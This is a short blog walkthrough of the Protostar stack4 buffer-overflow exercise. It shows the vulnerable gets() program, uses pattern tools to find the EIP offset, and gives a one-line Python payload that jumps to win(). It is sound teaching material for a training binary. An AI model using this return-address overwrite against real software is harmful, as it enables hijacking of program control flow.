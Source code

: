 ```yaml
---
layout: post
title: Buffer Overflow Practical Examples , Exploiting EIP - protostar stack4
categories: binary-exploitation
tags: [Linux, Binary Exploitation, Buffer Overflow, c, Python]
image: binary-exploitation/BOF4/0.png
---
```


<hr>
##### note : This article is small because I didn't want to solve stack 4 with stack 5 as stack 5 is different so I just wrote about stack 4 quickly
<br>
### Introduction
#### Hey again ,Today's article is going to be short. So last time I solved stack3 , I'm back again and today I'm going to solve stack4 which is really interesting , it's slightly different from stack3 but that difference is a new thing to see if we compare it to the previous challenges. So let's not talk too much and jump right in.
#### Read my [other articles about buffer overflow](/categories)
![](/images/binary-exploitation/BOF4/0.png)
<hr>
### ./stack4
#### Let's take a look at the source code first :
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
 printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
 char buffer[64];

 gets(buffer);
}
```
#### Very simple ! it defines the `win` function then defines the `main` function which sets a buffer of 64 chars and stores our input in it. But wait a second where is the variable that we're gonna overwrite ? in the previous challenges we had a variable that is being used by a function to change the code flow , now what will we overwrite ?
#### The answer is the `EIP` which is the instruction pointer. And the instruction pointer is a memory address that holds the address of the next instruction in the program during execution. So if we overwrite that address the program will execute whatever that address refers to. let's try to exceed the buffer.
`python -c "print 'A' * 64"`
![](/images/binary-exploitation/BOF4/1.png)
#### The program didn't even crash ... why ? Because the return address is not directly after the buffer like in the previous challenges , Let's try 100 chars 
`python -c "print 'A' * 100"`
![](/images/binary-exploitation/BOF4/2.png)
#### The program crashed , Let's find where does it exactly crash like we did in the [previous challenge](/binary-exploitation/bof3) read it if you haven't done yet.
#### We will create a pattern with `pattern_create`
`./pattern_create.rb -l 100`
![](/images/binary-exploitation/BOF4/3.png)
#### Then we will pass it to the program in gdb 
![](/images/binary-exploitation/BOF4/4.png)
#### It crashes at `0x63413563`
#### We locate that with pattern_offset
`./pattern_offset.rb -q 63413563`
![](/images/binary-exploitation/BOF4/5.png)
#### We get exact match at offset 76
#### Next step is to find the address of `win()` 
`objdump -d`
![](/images/binary-exploitation/BOF4/6.png)
#### The address is `0x080483f4`
#### Now we can build our exploit : 
`python -c "print 'A' * 76 + '\xf4\x83\x04\x08'" | ./stack4`
![](/images/binary-exploitation/BOF4/7.png)
#### And we successfully changed the code flow !
<br>
<br>
#### That's it , Feedback is appreciated !
#### Don't forget to read the [previous articles](/categories) , Tweet about the article if you liked it , follow on twitter for awesome resources [@Ahm3d_H3sham](https://twitter.com/Ahm3d_H3sham)
#### Thanks for reading.
<br>
<br>
#### Previous Buffer Overflow article : [Buffer Overflow Practical Examples , metasploit , gdb and objdump ! - protostar stack3 ](/binary-exploitation/bof3/)
#### Next Buffer Overflow article : [Buffer Overflow Practical Examples , Shellcode Injection and Local Privilege Escalation - protostar stack5](/binary-exploitation/bof5/)
<hr>

